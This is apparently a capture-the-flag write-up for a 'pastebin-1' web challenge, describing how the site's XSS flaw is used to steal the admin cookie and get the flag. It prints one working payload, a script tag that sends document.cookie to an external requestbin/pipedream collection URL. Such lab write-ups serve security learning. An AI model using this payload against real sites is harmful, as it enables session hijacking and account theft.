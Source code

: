 # pastebin-1

<p align="center">
    <img src="images/pastebin-1.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Notice that the website is vulnerable to XSS

<p align="center">
    <img src="images/pastebin-2.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

<p align="center">
    <img src="images/pastebin-3.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Use [requestbin](https://requestbin.com/) to receive web response.

Exploit XSS vulnerability to obtain admin cookie

`<script>new Image().src="https://enfai4qtftdcn.x.pipedream.net?c="+document.cookie;</script>`

<p align="center">
    <img src="images/pastebin-4.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Use the admin page to access the vulnerable page.

<p align="center">
    <img src="images/pastebin-5.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Got the flag on requestbin

<p align="center">
    <img src="images/pastebin-6.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Flag: `flag{d1dn7_n33d_70_b3_1n_ru57}`